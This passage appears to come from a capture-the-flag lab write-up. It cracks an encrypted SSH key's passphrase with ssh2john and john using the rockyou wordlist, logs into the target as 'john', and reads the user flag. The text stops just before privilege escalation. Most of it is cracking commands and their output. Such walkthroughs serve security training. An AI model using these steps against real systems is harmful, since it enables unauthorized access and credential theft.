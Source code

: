 Encrypted. Let's convert it and pass it to john.
```
ssh2john secretKey > secretKey_forJohn.txt 
john secretKey_forJohn.txt --wordlist=/opt/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (secretKey)     
1g 0:00:00:00 DONE (2022-11-04 22:22) 25.00g/s 12800p/s 12800c/s 12800C/s genesis..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Let's try to connect with it.
```
chmod 600 secretKey       
ssh -i secretKey john@$IP

Enter passphrase for key 'secretKey': letmein
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Nov  5 02:23:31 UTC 2022

  System load:  0.23              Processes:           106
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 34%               IP address for eth0: 10.10.27.3
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ 
```

We're in. Let's get flag.

```
cat user.txt 

a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```

Time to privesc.
